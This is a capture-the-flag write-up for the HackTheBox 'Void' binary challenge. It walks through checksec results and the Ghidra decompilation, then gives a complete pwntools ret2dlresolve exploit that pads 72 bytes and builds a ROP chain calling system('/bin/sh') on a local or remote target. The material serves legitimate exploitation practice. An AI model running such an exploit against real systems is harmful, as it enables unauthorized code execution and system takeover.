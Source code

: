 # Void
> Write-up author: jon-brandy
## DESCRIPTION:
The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary - not stripped.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/051edd67-8036-4c74-bdbc-9f7a144140ec)

> No Canary Found, PARTIAL RELRO, NO PIE

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/883735c5-0bb9-4f85-9485-e5de52f1ce4e)


2. Let's decompile the binary with ghidra.
3. At the main() function, there's only one function called --> vuln()

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/c762cb32-c0fd-4976-b2af-6725b8c9965b)


4. At first, i assume that the chall must be related to `ret2libc` because there's no interesting function to return to.
5. But after checking the **Global Offset Table** turns out there are no `puts()`, `printf()`, or `write()` functions.
6. Then i realized it's a `ret2dlresolve` pwn challenge. It's a technique in pwn to manipulate the dyanmic linker's resolution process and redirect it to execute arbitrary code.
7. Actually it's `quite similiar` to overwrite GOT with format strings vuln.
8. Also we can utilize **pwntools** to automate the process to resolve the functions, because if we don't use pwntools, we need to construct 3 structures to fake.

```console
There're 3 structures we need to fake:
- STRTAB
- SYMTAB
- JMPREL
```

9. Here's the script i used to solve this:

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './void'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

padding = 72

rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])
rop.raw(asm('nop') * padding)
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)

sh.sendline(rop.chain())
sh.sendline(dlresolve.payload)

sh.interactive()
```

> LOCALLY

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/57498dbc-34a6-45b1-aa52-0c1c9568caf8)


10. Let's send it remotely.



